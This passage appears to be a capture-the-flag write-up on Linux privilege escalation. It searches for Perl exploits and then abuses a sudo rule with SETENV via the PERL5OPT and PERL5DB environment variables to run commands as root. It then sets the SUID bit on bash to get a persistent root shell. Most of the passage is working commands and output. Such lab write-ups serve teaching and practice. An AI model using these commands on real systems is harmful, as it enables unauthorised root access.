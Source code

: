 - searchsploit perl and privilege escalation related exps

```bash
$ searchsploit perl priv
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exim - 'perl_startup' Local Privilege Escalation (Metasploit)                                                                        | linux/local/39702.rb
NetIQ Privileged User Manager 2.3.1 - 'ldapagnt_eval()' Perl Remote Code Execution (Metasploit)                                      | windows/remote/22903.rb
Novell NetIQ Privileged User Manager 2.3.1 - 'ldapagnt.dll' ldapagnt_eval() Perl Code Evaluation Remote Code Execution               | windows/remote/22738.txt
Setuid perl - 'PerlIO_Debug()' Root Owned File Creation Privilege Escalation                                                         | linux/local/792.c
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- perl startup [ok], [Exim - 'perl_startup' Local Privilege Escalation (Metasploit) - Linux local Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/39702)
- key usage: `cmd_exec(%Q{PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-})` -> two env vars and one cmd -> treated sudo rule `SETENV`

- POC: `sudo PERL5OPT=-d PERL5DB='exec "id"' /opt/monitor.sh` -> id as root

```bash
$ sudo PERL5OPT=-d PERL5DB='exec "id"' /opt/monitor.sh
Statement unlikely to be reached at /usr/bin/xml_pp line 9.
        (Maybe you meant system() when you said exec()?)
uid=0(root) gid=0(root) groups=0(root)
```

- give bash suid and execute it as the root priv

```bash
bash-5.1# sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /usr/bin/bash"' /opt/monitor.sh
Statement unlikely to be reached at /usr/bin/xml_pp line 9.
        (Maybe you meant system() when you said exec()?)
bash-5.1# bash -p
bash-5.1# id
uid=1000(jack) gid=1000(jack) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),1000(jack)
bash-5.1# cd /root
bash-5.1# pwd
/root
bash-5.1# ls
diagnostic_files  restore  root.txt
```

